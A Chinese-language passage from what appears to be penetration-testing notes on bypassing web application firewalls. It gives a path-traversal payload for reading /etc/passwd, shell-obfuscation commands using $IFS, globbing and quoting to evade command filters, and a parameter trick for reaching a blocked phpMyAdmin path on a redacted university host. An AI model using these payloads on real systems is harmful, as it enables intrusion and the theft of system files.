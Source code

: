 **路径限制绕过**

比如 WAF 会对访问敏感路径加以限制,但是加上参数可以绕过.

比如想访问 `xxx.██.edu.cn/phpmyadmin/` 会被拦截,访问 `xxx.██.edu.cn/phpmyadmin/?id=1` 可以绕过

例如连续两个 `../` 会被拦截,可以尝试采用 `./`,例如存在关键词,可以使用 `./` 分割,linux 下 `./` 会被忽略

payload: `.././.././.././.././.././.././.././.././.././.././.././etc/./passwd`

**linux变量特性**

- 利用 * 匹配和 "" 为空白的特性
    ```bash
    \l\s -l\a\h
    ""c""at /""**c""/""""**********""a""d******""
    cat /e?c/p?ss??
    cat /e??/??ss*
    l''s
    {l<s,}
    {ls,-a}

    {cat,/etc/passwd}
    cat</etc/passwd
    ```

- 使用空的 shell 变量特性
    ```bash
    cat$IFS/etc/passwd
    cat${IFS}/etc/passwd
    IFS=,;`cat<<<cat,/etc/passwd`

    c${fuckwaf}at /e${fuckwaf}tc/${fuckwaf}pass${fuckwaf}wd
    ```

- 变量控制
    ```bash
    x=$'cat\x09/etc/passwd'&&$x
    a=f;d=ag;c=l;cat$IFS$a$c$d.php
    ```

**多重编码**
- [How to hack a company by circumventing its WAF for fun and profit - part 2](https://www.redtimmy.com/web-application-hacking/how-to-hack-a-company-by-circumventing-its-waf-for-fun-and-profit-part-2/) - 通过多重编码绕过 iRules 规则

---

# 分段传输

**利用 pipline 绕过**
- **原理**

    http 协议是由 tcp 协议封装而来,当浏览器发起一个 http 请求时,浏览器先和服务器建立起连接 tcp 连接,然后发送 http 数据包(即我们用 burpsuite 截获的数据),其中包含了一个 Connection 字段,一般值为 close,apache 等容器根据这个字段决定是保持该tcp连接或是断开.当发送的内容太大,超过一个 http 包容量,需要分多次发送时,值会变成 keep-alive,即本次发起的 http 请求所建立的 tcp 连接不断开,直到所发送内容结束 Connection 为 close 为止.
